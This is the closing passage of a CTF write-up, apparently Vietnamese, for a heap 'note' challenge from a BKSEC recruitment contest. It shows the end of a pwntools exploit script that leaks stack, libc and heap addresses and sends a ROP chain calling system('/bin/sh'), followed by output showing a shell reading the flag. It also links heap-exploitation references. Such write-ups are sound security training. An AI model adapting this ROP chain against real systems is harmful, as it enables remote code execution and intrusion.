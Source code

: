 ```py
    # 0x000000000010f75b : pop rdi ; ret
    # 0x000000000002882f : ret
    pop_rdi = libc.address + 0x000000000010f75b
    system = libc.sym['system']
    bin_sh = next(libc.search(b'/bin/sh'))
    pop_rsi = libc.address + 0x0000000000110a4d
    ret = libc.address + 0x000000000002882f
    rop = p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

    r.sendlineafter(b'Enter new content: ', rop)
    log.info(f"Return address: {hex(return_address)}")
    log.success(f"Stack leak: {hex(stack_leak)}")
    log.success(f"Libc leak: {hex(libc_leak)}")
    log.success(f"Libc base: {hex(libc.address)}")
    log.info(f'Heap leak: {hex(heap_leak)}')
    log.success(f"Heap base: {hex(heap_base)}")
    

    r.interactive()


if __name__ == "__main__":
    main()

```

- Kết quả:
```bash
grass@grass:/mnt/d/CTFs/2025/BKSEC-recruitment/note/chal$ python3 solve.py
[+] Opening connection to localhost on port 1611: Done
[*] Return address: 0x7ffc77eb92f8
[+] Stack leak: 0x7ffc77eb9488
[+] Libc leak: 0x7fe2ca07ab20
[+] Libc base: 0x7fe2c9e77000
[*] Heap leak: 0x55a587c04bd0
[+] Heap base: 0x55a587c02000
[*] Switching to interactive mode
Note edited successfully
$ cat flag.txt
BKSEC{Qu1t3_s1mpl3_t0_3xp1oit_r1ght?}
[*] Interrupted
[*] Closed connection to localhost port 1611
```

## 5. Refs
- https://guyinatuxedo.github.io/27-edit_free_chunk/uaf_explanation/index.html
- https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks
